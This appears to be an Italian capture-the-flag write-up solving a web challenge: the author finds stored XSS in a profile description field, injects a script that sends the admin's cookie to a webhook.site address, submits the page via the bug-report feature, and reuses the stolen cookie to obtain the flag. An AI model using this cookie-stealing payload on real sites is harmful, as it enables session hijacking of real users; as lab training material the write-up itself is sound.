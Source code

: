 Il sito ci da la possibilità di registrarci, inseriamo username e password qualsiasi e ci accediamo

<img width="1370" height="487" alt="immagine" src="https://github.com/user-attachments/assets/4df6b353-ca9c-46bc-af25-b7dda0d48027" />

Ci ritroviamo in questa pagina apparentemente innocua, infatti in realtà il campo description è vulnerabile a xss, possiamo verificarlo con un semplice alert:

<img width="1156" height="442" alt="immagine" src="https://github.com/user-attachments/assets/8c92ff19-bf92-4193-9f3a-3583152cfa83" />

<img width="1190" height="522" alt="immagine" src="https://github.com/user-attachments/assets/4710dc3c-dd06-4ad1-99ce-17ff60b2711f" />

Inseriamo allora il payload per rubare il cookie all'admin:

```<script>fetch("https://webhook.site/00a9f704-b8e6-454d-bec3-41073d65b205/?c= +document.cookie");</script>```

Inseriamo poi nella sezione Report a bug l'url della pagina, e attendiamo che il cookie arrivi sul webhook.

Una volta preso, lo inseriamo al posto del nostro tramite i devtools.

<img width="1188" height="455" alt="immagine" src="https://github.com/user-attachments/assets/f4d7afc6-8d09-4491-91b4-80af5eac5ed0" />




**flag{c00ki3s_4r3_d4Ng3r0uS_Wh3n_Th3y_m33t_XSS}**
